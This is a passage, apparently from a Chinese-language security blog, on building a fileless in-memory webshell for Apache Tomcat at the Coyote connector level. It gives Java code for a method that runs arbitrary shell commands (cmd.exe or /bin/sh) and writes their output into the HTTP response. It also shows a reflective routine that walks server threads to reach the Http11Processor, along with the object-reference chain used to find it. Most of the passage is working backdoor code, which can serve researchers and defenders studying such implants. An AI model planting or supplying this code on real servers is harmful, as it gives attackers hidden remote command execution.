 执行命令的方法如下

```plain
public void exec(String p, org.apache.coyote.Response res) {
        try {
            String[] cmd = System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe", "/c", p} : new String[]{"/bin/sh", "-c", p};
            byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
            res.doWrite(ByteBuffer.wrap(result));
        } catch (Exception e) {
        }
    }
```

之前找到 CoyoteAdapter 存储在 Http11Processor 中

之后通过 conlyone 大佬的内存对象搜索工具找到如何从当前线程获取 Http11Processor

```plain
TargetObject = {org.apache.tomcat.util.threads.TaskThread} 
  ---> group = {java.lang.ThreadGroup} 
   ---> threads = {class [Ljava.lang.Thread;} 
    ---> [15] = {java.lang.Thread} 
     ---> target = {org.apache.tomcat.util.net.NioEndpoint$Poller} 
      ---> this$0 = {org.apache.tomcat.util.net.NioEndpoint} 
       ---> connections = {java.util.Map<U, org.apache.tomcat.util.net.SocketWrapperBase<S>>} 
        ---> [java.nio.channels.SocketChannel[connected local=/127.0.0.1:8081 remote=/127.0.0.1:53770]] = {org.apache.tomcat.util.net.NioEndpoint$NioSocketWrapper} 
         ---> currentProcessor = {org.apache.coyote.http11.Http11Processor}
```

所以可以写出如下获取内存中 Http11Processor 的方法

```plain
public static Object getHttp11Processor() {
        ThreadGroup threadGroup = Thread.currentThread().getThreadGroup();
        Thread threads[] = (Thread[]) getField(threadGroup, threadGroup.getClass(), "threads");
        for(Thread thread:threads){
            //不同的环境下可能需要在不同的线程数组元素中取出，所以使用 for 循环遍历这些线程
            Object o=getField(thread, thread.getClass(), "target");
            if(null!=o&&o instanceof  NioEndpoint.Poller){
                NioEndpoint.Poller target=( NioEndpoint.Poller)o;
                NioEndpoint nioEndpoint = (NioEndpoint) getField(target, target.getClass(), "this$0");
                Set<SocketWrapperBase<NioChannel>> connections = nioEndpoint.getConnections();
                for (SocketWrapperBase<NioChannel> c : connections) {
                    Object currentProcessor = c.getCurrentProcessor();
                    if (null != currentProcessor) {
                        return currentProcessor;
                    }
                }
            }

        }
        return new Object();
    }
```
